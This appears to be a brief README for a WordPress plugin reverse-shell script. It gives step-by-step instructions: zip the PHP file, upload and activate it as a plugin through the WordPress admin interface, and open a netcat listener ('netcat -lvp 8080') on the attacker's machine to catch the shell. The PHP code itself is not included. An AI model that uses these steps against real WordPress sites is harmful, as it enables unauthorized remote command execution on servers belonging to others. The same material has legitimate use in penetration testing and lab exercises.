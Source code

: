 # wordpress_plugin_reverse_shell.php
# NOTE: PHP script uses example attacker machine IP:PORT - 127.0.0.1:8080

1.) Zip up php file.

2.) Navigate WP UI -> Plugins -> Add New -> Upload Plugin 
   -> Browse -> Install Now -> Activate Plugin.

3.) Setup listening port with netcat from attacker machine: netcat -lvp 8080
